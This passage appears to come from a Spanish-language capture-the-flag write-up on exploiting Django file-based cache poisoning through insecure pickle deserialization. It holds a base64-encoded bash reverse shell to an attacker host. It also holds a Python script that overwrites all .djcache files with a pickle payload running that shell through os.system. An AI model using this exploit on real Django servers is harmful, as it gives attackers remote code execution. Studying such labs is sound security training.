 Sabiendo el nombre de este archivo y tambien sabiendo que hay un `Django` podemos deducir que puede tener una vulnerabilidad llamada `Django FileBasedCache Poisoning` vamos a utilizar un `Pickle Inseguro` (Cuando Django lee el caché, automáticamente **reconstruye los objetos** usando `pickle.loads()`), vamos a explotarla de esta forma:

Vamos a montarnos un script que genere este archivo malicioso que vamos a utilizar y que lo sobreescriba a la vez con los permisos necesarios.

```shell
echo '(bash >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1) &' | base64
```

Info:

```
KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvOTk5OSAwPiYxKSAmCg==
```

> createPickle.py

```python
import pickle  
import base64  
import os  
import time  
  
cache_dir = "/var/tmp/django_cache"  
cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvOTk5OSAwPiYxKSAmCg==|base64 -d|bash"  
  
# ---- Pickle payload ----
  
class RCE:  
    def __reduce__(self):  
        return (os.system, (cmd,),)  
  
payload = pickle.dumps(RCE())  
  
# ---- cache ----
  
for filename in os.listdir(cache_dir):  
    if filename.endswith(".djcache"):  
        path = os.path.join(cache_dir, filename)  
        try:  
            os.remove(path) 
        except:  
            continue  
        with open(path, "wb") as f:  
            f.write(payload)  # pickle payload        
        print(f"[+] Written payload to {filename}")
```

Establecemos los permisos de ejecuccion:

```shell
chmod +x createPickle.py
```
